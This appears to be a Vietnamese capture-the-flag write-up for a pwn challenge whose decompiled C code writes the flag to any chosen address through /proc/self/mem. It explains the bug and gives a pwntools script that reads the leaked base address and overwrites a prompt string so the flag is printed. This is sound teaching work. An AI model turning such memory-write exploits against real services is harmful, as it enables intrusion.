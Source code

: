 ```c
        "An excellent primitive you get for free\n"
        "Choose an address and I will write what I see\n"
        "But the author is cursed or perhaps it's just out of spite\n"
        "For the flag that you seek is the thing you will write\n"
        "ASLR isn't the challenge so I'll tell you what\n"
        "I'll give you my mappings so that you'll have a shot.\n");
      dprintf(v10, "%s\n\n", maps);
      while ( 1 )
      {
        dprintf(
          v10,
          "Give me an address and a length just so:\n"
          "<address> <length>\n"
          "And I'll write it wherever you want it to go.\n"
          "If an exit is all that you desire\n"
          "Send me nothing and I will happily expire\n");
        memset(buf, 0, 64);
        v8 = read(v10, buf, 0x40uLL);
        if ( (unsigned int)__isoc99_sscanf(buf, "0x%llx %u", &addr, &n) != 2 || (unsigned int)n > 0x7F )
          break;
        v7 = open("/proc/self/mem", 2);
        lseek64(v7, addr, 0);
        write(v7, &flag, (unsigned int)n);
        close(v7);
      }
      exit(0);
    }
    puts("flag.txt empty");
    return 1;
  }
}
```

Chương trình cho ta xem `/proc/self/map`, mở  `/proc/self/mem` rồi lssek và write `flag` ở đâu tuỳ vào input của mình.

Tức là ta có thể biết địa chỉ và có thể ghi đè flag ở đâu trong memory của process đó ( không cần quan tâm quyền write ).

Mình chỉ cần đơn là ghi đè `flag` vào chuỗi `"Give me an address ... "`.

```python
from pwn import *
from time import sleep

context.binary = e = ELF("./chal_patched")
libc = ELF("./libc.so.6")
gs="""
"""
def start():
	if args.LOCAL:
		p=e.process()
		if args.GDB:
			gdb.attach(p,gdbscript=gs)
			pause()
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p

p = start()
p.recvuntil(b"I'll give you my mappings so that you'll have a shot.\n")
e.address = int(p.recv(12).decode(),16)
log.info(f"{hex(e.address)}")
p.sendline(f"{hex(e.address+0x00000000000021E0)} 40".encode())
```